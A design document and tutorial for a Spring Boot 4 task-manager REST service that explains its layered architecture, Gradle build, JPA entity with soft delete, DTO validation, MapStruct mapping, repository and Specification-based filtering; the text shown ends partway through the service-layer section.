# TaskManagerApplication — Design Document & Technical Tutorial

> **Spring Boot 4.0.3 · Java 25 · PostgreSQL 16 · Flyway · MapStruct · Lombok · AntiSamy**
>
> Last updated: 2026-03-04

---

## Table of Contents

> 📊 **This document contains 10 Mermaid diagrams.** If your viewer doesn't render them, open this file in GitHub, VS Code (with Mermaid extension), or any Mermaid-compatible Markdown viewer. See [Section 21](#21-about-the-diagrams--mermaid) for a full explanation of Mermaid.

1. [Project Overview](#1-project-overview)
2. [Architecture & Package Structure](#2-architecture--package-structure)
3. [Build System — `build.gradle.kts` Deep Dive](#3-build-system--buildgradlekts-deep-dive)
4. [The Entity — `Task.java`](#4-the-entity--taskjava)
5. [DTOs — Request & Response Separation](#5-dtos--request--response-separation)
6. [Mapper — `TaskMapper.java` (MapStruct)](#6-mapper--taskmapperjava-mapstruct)
7. [Repository — `TaskRepository.java`](#7-repository--taskrepositoryjava)
8. [Specifications — Dynamic Filtering](#8-specifications--dynamic-filtering)
9. [Service Layer — `TaskService.java`](#9-service-layer--taskservicejava)
10. [Controller Layer — `TaskController.java`](#10-controller-layer--taskcontrollerjava)
11. [Input Sanitization — `SanitizationService.java`](#11-input-sanitization--sanitizationservicejava)
12. [Exception Handling — Global Exception Handler](#12-exception-handling--global-exception-handler)
13. [Configuration Classes](#13-configuration-classes)
14. [Database Migrations — Flyway](#14-database-migrations--flyway)
15. [Docker Setup](#15-docker-setup)
16. [Application Configuration — YAML](#16-application-configuration--yaml)
17. [Testing Strategy](#17-testing-strategy)
18. [Request Lifecycle — End-to-End Walkthrough](#18-request-lifecycle--end-to-end-walkthrough)
19. [Key Design Decisions & Trade-offs](#19-key-design-decisions--trade-offs)
 20. [Annotation Reference](#20-annotation-reference)
21. [About the Diagrams — Mermaid](#21-about-the-diagrams--mermaid)

---

## 1. Project Overview

TaskManagerApplication is a RESTful CRUD microservice for managing tasks. It is designed as a production-oriented learning project that demonstrates enterprise Java patterns:

| Concern | Technology |
|---|---|
| Runtime framework | Spring Boot 4.0.3 |
| Language | Java 25 (Virtual Threads enabled) |
| Database | PostgreSQL 16 (Dockerised) |
| Schema management | Flyway (versioned SQL migrations) |
| Object mapping | MapStruct 1.6.0 (compile-time code generation) |
| Boilerplate reduction | Lombok (annotation-driven getters/setters/builders) |
| Input sanitization | OWASP AntiSamy (XSS prevention) |
| Build tool | Gradle (Kotlin DSL) |
| Test coverage | JUnit 5 + Mockito + MockMvc, JaCoCo reports |

### What It Does

#### System Context Diagram



```
Client (curl / Postman / browser)
   │
   ▼
┌──────────────────────────┐
│  POST /api/tasks         │  Create a task
│  GET  /api/tasks         │  List tasks (paginated, filterable)
│  GET  /api/tasks/{id}    │  Get one task
│  PUT  /api/tasks/{id}    │  Update a task
│  DELETE /api/tasks/{id}  │  Soft-delete a task
└──────────────────────────┘
   │
   ▼
┌──────────────────────────┐
│  PostgreSQL "tasks" table │
└──────────────────────────┘
```

---

## 2. Architecture & Package Structure

The project follows the **Controller → Service → Repository** layered architecture, which is the standard Spring Boot pattern:

### Layered Architecture Diagram



### Spring Bean Dependency Graph



```
src/main/java/com/taskmanager/app/
├── TaskManagerApplication.java        ← Entry point (@SpringBootApplication)
├── config/
│   ├── JpaConfig.java                ← Enables JPA auditing (@EnableJpaAuditing)
│   └── FlywayConfig.java            ← Explicit Flyway bean configuration
├── controller/
│   └── TaskController.java           ← REST API endpoints (@RestController)
├── service/
│   ├── TaskService.java              ← Business logic layer (@Service)
│   └── SanitizationService.java      ← XSS input sanitisation (@Service)
├── repository/
│   └── TaskRepository.java           ← Data access layer (JPA + Specifications)
├── model/
│   └── Task.java                     ← JPA entity (@Entity)
├── dto/
│   ├── TaskRequestDTO.java           ← What clients SEND (input)
│   └── TaskResponseDTO.java          ← What clients RECEIVE (output)
├── mapper/
│   └── TaskMapper.java               ← MapStruct: Entity ↔ DTO conversions
├── specification/
│   └── TaskSpecifications.java       ← JPA Criteria API dynamic filters
└── exception/
    ├── GlobalExceptionHandler.java    ← Catches all exceptions → JSON error bodies
    ├── ErrorResponse.java             ← Structured error JSON format
    ├── TaskNotFoundException.java     ← 404 exception
    └── DuplicateTaskException.java    ← 409 exception
```

### Why This Structure?

| Layer | Responsibility | Rule |
|---|---|---|
| **Controller** | HTTP request/response handling | Never contains business logic |
| **Service** | Business logic, validation, sanitization | Never knows about HTTP status codes |
| **Repository** | Database access | Never contains business rules |
| **DTO** | Data transfer shapes | Never contains logic |
| **Mapper** | Translation between layers | Stateless, compile-time generated |
| **Exception** | Error handling | Centralised, consistent error format |

Each layer depends only on the layer directly below it. The controller never talks to the repository directly.

---

## 3. Build System — `build.gradle.kts` Deep Dive

```kotlin
plugins {
    java
    jacoco                                                    // Code coverage reports
    id("org.springframework.boot") version "4.0.3"            // Spring Boot plugin
    id("io.spring.dependency-management") version "1.1.7"     // BOM-based version management
}
```

### Why Kotlin DSL?

Gradle supports two DSLs: Groovy (`.gradle`) and Kotlin (`.gradle.kts`). Kotlin DSL provides:
- **Type-safe** — IDE autocompletion and compile-time error checking
- **Consistent syntax** — no ambiguity between method calls and property assignments

### Key Dependencies Explained

```kotlin
dependencies {
    // --- CORE ---
    implementation("org.springframework.boot:spring-boot-starter")          // Core Spring (DI, auto-config)
    implementation("org.springframework.boot:spring-boot-starter-web")      // Embedded Tomcat + Spring MVC
    implementation("org.springframework.boot:spring-boot-starter-data-jpa") // Hibernate + Spring Data JPA
    implementation("org.springframework.boot:spring-boot-starter-validation") // Bean Validation (Jakarta)

    // --- DATABASE ---
    runtimeOnly("org.postgresql:postgresql")                 // PostgreSQL JDBC driver (runtime only)

    // --- CODE GENERATION (compile-time only) ---
    compileOnly("org.projectlombok:lombok")                  // Getters/setters/builders at compile time
    annotationProcessor("org.projectlombok:lombok")          // Lombok annotation processor
    implementation("org.mapstruct:mapstruct:1.6.0.Beta1")    // MapStruct runtime annotations
    annotationProcessor("org.mapstruct:mapstruct-processor:1.6.0.Beta1") // MapStruct code generator
    annotationProcessor("org.projectlombok:lombok-mapstruct-binding:0.2.0") // Lombok↔MapStruct bridge

    // --- SECURITY ---
    implementation("org.owasp.antisamy:antisamy:1.7.4")      // XSS sanitization engine

    // --- SCHEMA MANAGEMENT ---
    implementation("org.flywaydb:flyway-core")               // Flyway migration engine
    implementation("org.flywaydb:flyway-database-postgresql") // Flyway PostgreSQL dialect
}
```

### Scope Explained

| Scope | Meaning | Example |
|---|---|---|
| `implementation` | Needed at compile time AND runtime | Spring Boot starters |
| `runtimeOnly` | Only needed when the app runs, not for compilation | PostgreSQL JDBC driver |
| `compileOnly` | Only needed during compilation, not packaged in JAR | Lombok |
| `annotationProcessor` | Runs during compilation to generate code | Lombok, MapStruct |
| `testImplementation` | Same as `implementation` but only for tests | JUnit, Mockito |

### Why `lombok-mapstruct-binding`?

Lombok and MapStruct both use annotation processing. Without the binding library, MapStruct runs before Lombok, meaning it can't see the getters/setters that Lombok generates. The binding ensures correct ordering: **Lombok runs first → MapStruct runs second**.

---

## 4. The Entity — `Task.java`

### Database Schema (Entity-Relationship Diagram)



### Task Lifecycle — Soft Delete State Machine



```java
@Entity                     // Tells Hibernate: this class maps to a DB table
@Table(name = "tasks")      // Explicit table name (otherwise Hibernate uses "task")
@SQLDelete(sql = "UPDATE tasks SET deleted = true, deleted_at = NOW() WHERE id = ?")
@SQLRestriction("deleted = false")
@Getter @Setter             // Lombok: generates all getters and setters
@NoArgsConstructor          // Required by JPA — Hibernate creates instances via reflection
@AllArgsConstructor         // Useful for test builders
@EntityListeners(AuditingEntityListener.class)  // Auto-fills @CreatedDate / @LastModifiedDate
@Builder                    // Lombok: fluent builder pattern for test code
public class Task {

    @Id
    @GeneratedValue(strategy = GenerationType.IDENTITY)    // PostgreSQL BIGSERIAL auto-increment
    private Long id;

    @Column(name = "title", nullable = false, unique = true)
    private String header;             // ← Java field name ≠ DB column name!

    @Column(name = "description", length = 500)
    private String description;

    @Column(nullable = false, columnDefinition = "boolean default false")
    private boolean completed;

    @Column(name = "deleted", nullable = false)
    @Builder.Default                   // Tells @Builder to use = false as the default
    private boolean deleted = false;

    @CreatedDate
    @Column(name = "created_at", nullable = false, updatable = false)
    private LocalDateTime createdAt;

    @LastModifiedDate
    @Column(name = "last_modified_at")
    private LocalDateTime lastModifiedAt;

    @Column(name = "deleted_at")
    private LocalDateTime deletedAt;
}
```

### Design Decision: `header` vs `title`

The Java field is named `header`, but the DB column is `title`. This is intentional — it demonstrates that **Java field names and DB column names don't have to match**. The `@Column(name = "title")` annotation handles the mapping. This pattern is common in legacy systems where you inherit a DB schema you can't change.

### Soft Delete Pattern

Instead of physically removing rows with `DELETE FROM tasks WHERE id = ?`, the application uses **soft delete**:

```sql
-- What actually runs when you call taskRepository.delete(task):
UPDATE tasks SET deleted = true, deleted_at = NOW() WHERE id = ?
```

This is implemented via two Hibernate annotations:

| Annotation | Purpose |
|---|---|
| `@SQLDelete(sql = "UPDATE tasks SET deleted = true, ...")` | Overrides the SQL that Hibernate generates for `DELETE` |
| `@SQLRestriction("deleted = false")` | Automatically appends `WHERE deleted = false` to every `SELECT` |

**Why soft delete?**
- **Audit trail** — you can see what was deleted and when
- **Recovery** — accidentally deleted tasks can be restored
- **Compliance** — some regulations require data retention

### `@Builder.Default` — A Subtle Trap

Without `@Builder.Default`, Lombok's `@Builder` ignores field initialisers:

```java
// WITHOUT @Builder.Default:
private boolean deleted = false;
Task.builder().header("test").build();  // deleted = false (by Java primitive default, NOT by = false)

// WITH @Builder.Default:
@Builder.Default
private boolean deleted = false;
Task.builder().header("test").build();  // deleted = false (explicitly from the initialiser)
```

For `boolean` primitives the result is the same (`false`), but for reference types like `String` or `List`, `@Builder.Default` is critical:

```java
@Builder.Default
private List<String> tags = new ArrayList<>();  // Builder creates new ArrayList
// vs
private List<String> tags = new ArrayList<>();  // Builder sets tags = null !
```

### JPA Auditing

The `@CreatedDate` and `@LastModifiedDate` annotations auto-fill timestamps:

```java
@EntityListeners(AuditingEntityListener.class)  // Activates auditing for this entity
```

This requires the `@EnableJpaAuditing` switch in `JpaConfig.java`. When a `Task` is:
- **Created** → `createdAt` is automatically set to `now()`
- **Updated** → `lastModifiedAt` is automatically set to `now()`

No manual code needed. Spring's `AuditingEntityListener` intercepts JPA lifecycle events.

---

## 5. DTOs — Request & Response Separation

### Why Two DTOs?

| | `TaskRequestDTO` | `TaskResponseDTO` |
|---|---|---|
| **Direction** | Client → Server | Server → Client |
| **Has `id`?** | ❌ No (DB generates it) | ✅ Yes |
| **Has `completionStatus`?** | ❌ No (server computes it) | ✅ Yes ("DONE" / "PENDING") |
| **Has validation?** | ✅ `@NotBlank`, `@Size`, `@NotNull` | ❌ No (we trust our own output) |
| **Has audit fields?** | ❌ No | ✅ `createdAt`, `lastModifiedAt` |

### `TaskRequestDTO` — Input Validation

```java
@Getter @Setter @NoArgsConstructor @AllArgsConstructor @Builder
public class TaskRequestDTO {

    @NotBlank(message = "Title is required")
    @Size(min = 3, max = 100, message = "Title must be between 3 and 100 characters")
    private String title;

    @Size(max = 500, message = "Description cannot exceed 500 characters")
    private String description;

    @NotNull(message = "Completion status must be specified")
    private Boolean completed;   // ← Boolean wrapper, NOT primitive boolean!
}
```

### Why `Boolean` (wrapper) instead of `boolean` (primitive)?

```java
// WRONG — primitive boolean:
private boolean completed;
// If the client sends: {"title": "Buy Milk"}  (omits "completed")
// → completed = false (Java primitive default)
// → @NotNull NEVER triggers! The field silently defaults to false.

// CORRECT — Boolean wrapper:
private Boolean completed;
// If the client sends: {"title": "Buy Milk"}  (omits "completed")
// → completed = null (object default)
// → @NotNull TRIGGERS → 400 Bad Request: "Completion status must be specified"
```

This is a common Java validation trap. Always use wrapper types (`Boolean`, `Integer`, `Long`) when you need `@NotNull` validation.

---

## 6. Mapper — `TaskMapper.java` (MapStruct)

### Data Mapping Flow Diagram



#### Field Mapping Matrix



```java
@Mapper(componentModel = "spring")  // Generates a Spring @Component at compile time
public interface TaskMapper {

    // Entity → DTO: header → title, plus a computed completionStatus
    @Mapping(source = "header", target = "title")
    @Mapping(target = "completionStatus",
             expression = "java(task.isCompleted() ? \"DONE\" : \"PENDING\")")
    TaskResponseDTO toDTO(Task task);

    // DTO → Entity: title → header, with server-managed fields ignored
    @Mapping(source = "title", target = "header")
    @Mapping(target = "id", ignore = true)
    @Mapping(target = "deleted", ignore = true)
    @Mapping(target = "createdAt", ignore = true)
    @Mapping(target = "lastModifiedAt", ignore = true)
    @Mapping(target = "deletedAt", ignore = true)
    Task toEntity(TaskRequestDTO dto);
}
```

### How Does MapStruct Work?

MapStruct is a **compile-time code generator**. At build time, it reads this interface and generates `TaskMapperImpl.java`:

```java
// AUTO-GENERATED by MapStruct (simplified)
@Component
public class TaskMapperImpl implements TaskMapper {

    @Override
    public TaskResponseDTO toDTO(Task task) {
        TaskResponseDTO dto = new TaskResponseDTO();
        dto.setTitle(task.getHeader());              // source = "header" → target = "title"
        dto.setDescription(task.getDescription());    // same name → auto-mapped
        dto.setCompleted(task.isCompleted());          // same name → auto-mapped
        dto.setCompletionStatus(task.isCompleted() ? "DONE" : "PENDING"); // expression
        dto.setCreatedAt(task.getCreatedAt());
        dto.setLastModifiedAt(task.getLastModifiedAt());
        dto.setId(task.getId());
        return dto;
    }

    @Override
    public Task toEntity(TaskRequestDTO dto) {
        Task task = new Task();
        task.setHeader(dto.getTitle());               // source = "title" → target = "header"
        task.setDescription(dto.getDescription());
        task.setCompleted(dto.getCompleted());
        // id, deleted, createdAt, lastModifiedAt, deletedAt are all ignored
        return task;
    }
}
```

### Why MapStruct over Manual Mapping?

| Approach | Pros | Cons |
|---|---|---|
| Manual `new TaskResponseDTO(); dto.setTitle(...)` | Simple, obvious | Verbose, error-prone, tedious for many fields |
| MapStruct | Type-safe, zero runtime reflection, compile-time errors for unmapped fields | Requires annotation processing setup |
| ModelMapper / Dozer | Runtime reflection, no setup | Slow, errors only at runtime, hard to debug |

### The `ignore = true` Pattern

When converting `TaskRequestDTO → Task`, the entity has fields that the DTO doesn't:

```
TaskRequestDTO      →     Task
──────────────             ────
title              →     header     ✅ mapped via @Mapping
description        →     description ✅ auto-mapped (same name)
completed          →     completed   ✅ auto-mapped
                         id          ❌ ignore (DB generates)
                         deleted     ❌ ignore (defaults to false)
                         createdAt   ❌ ignore (JPA auditing)
                         lastModifiedAt ❌ ignore (JPA auditing)
                         deletedAt   ❌ ignore (soft-delete SQL)
```

Without `ignore = true`, MapStruct generates a compile **warning** for each unmapped field. With `ignore = true`, the intent is explicit and the warning is suppressed.

---

## 7. Repository — `TaskRepository.java`

```java
@Repository
public interface TaskRepository extends JpaRepository<Task, Long>,
                                        JpaSpecificationExecutor<Task> {
    boolean existsByHeaderAndCompletedFalse(String header);
}
```

### What You Get for Free

By extending `JpaRepository<Task, Long>`, Spring Data JPA auto-generates:

| Method | SQL Equivalent |
|---|---|
| `save(task)` | `INSERT INTO tasks (...) VALUES (...)` or `UPDATE tasks SET ... WHERE id = ?` |
| `findById(id)` | `SELECT * FROM tasks WHERE id = ? AND deleted = false` |
| `findAll(pageable)` | `SELECT * FROM tasks WHERE deleted = false LIMIT ? OFFSET ?` |
| `delete(task)` | `UPDATE tasks SET deleted = true WHERE id = ?` (via `@SQLDelete`) |
| `count()` | `SELECT COUNT(*) FROM tasks WHERE deleted = false` |

### Derived Query Method

```java
boolean existsByHeaderAndCompletedFalse(String header);
```

Spring Data parses this method name at startup:

```
existsBy    → SELECT COUNT(*) > 0 FROM tasks WHERE
Header      → title = ?                  (header maps to "title" column)
And         → AND
Completed   → completed =
False       → false
```

Result: `SELECT COUNT(*) > 0 FROM tasks WHERE title = ? AND completed = false AND deleted = false`

(The `AND deleted = false` is automatically appended by `@SQLRestriction`.)

### `JpaSpecificationExecutor`

This interface adds `findAll(Specification<Task>, Pageable)` which enables **dynamic query building** at runtime. See [Section 8](#8-specifications--dynamic-filtering).

---

## 8. Specifications — Dynamic Filtering

```java
public class TaskSpecifications {

    public static Specification<Task> hasTitle(String title) {
        return (root, query, cb) ->
            title == null ? null : cb.like(cb.lower(root.get("header")),
                                          "%" + title.toLowerCase() + "%");
    }

    public static Specification<Task> isCompleted(Boolean completed) {
        return (root, query, cb) ->
            completed == null ? null : cb.equal(root.get("completed"), completed);
    }
}
```

### How Specifications Work

A `Specification<Task>` is a lambda that produces a JPA `Predicate` (a WHERE clause fragment):

```java
(root, query, criteriaBuilder) -> predicate
```

| Parameter | What It Is |
|---|---|
| `root` | The `FROM tasks` table — used to access columns: `root.get("header")` |
| `query` | The overall query — used for ordering, distinct, etc. |
| `cb` (CriteriaBuilder) | Factory for building predicates: `cb.like(...)`, `cb.equal(...)` |

### The `null` Return Convention

Returning `null` from a `Specification` means **"no filter"**. Spring Data JPA ignores null predicates when combining with `Specification.where(...).and(...)`:

```java
// In TaskService.getAllTasks():
Specification<Task> spec = Specification
    .where(TaskSpecifications.hasTitle(title))      // null if title is null → ignored
    .and(TaskSpecifications.isCompleted(completed)); // null if completed is null → ignored
```

| `title` | `completed` | Generated WHERE clause |
|---|---|---|
| `null` | `null` | `WHERE deleted = false` (no extra filters) |
| `"milk"` | `null` | `WHERE deleted = false AND LOWER(title) LIKE '%milk%'` |
| `null` | `true` | `WHERE deleted = false AND completed = true` |
| `"milk"` | `false` | `WHERE deleted = false AND LOWER(title) LIKE '%milk%' AND completed = false` |

---

## 9. Service Layer — `TaskService.java`

The service layer contains all business logic. It is the **only** layer that:
- Orchestrates multiple repository calls
- Applies business rules (duplicate checking, sanitization)
- Manages transactions

### Service Method Flow — `createTask()`



### All Service Methods — Overview



### Method Walkthrough

#### `getAllTasks(String title, Boolean completed, Pageable pageable)`

```java
public Page<TaskResponseDTO> getAllTasks(String title, Boolean completed, Pageable pageable) {
    // 1. Build a dynamic Specification from the optional filters
    Specification<Task> spec = Specification.where(TaskSpecifications.hasTitle(title))
            .and(TaskSpecifications.isCompleted(completed));

    // 2. Execute the query with pagination + Specification
    // 3. Map each Task entity → TaskResponseDTO via MapStruct
    return taskRepository.findAll(spec, pageable)
            .map(taskMapper::toDTO);  // method reference: same as task -> taskMapper.toDTO(task)
}
```

The `.map(taskMapper::toDTO)` call uses Spring Data's `Page.map()` method, which transforms each element in the page without affecting pagination metadata.

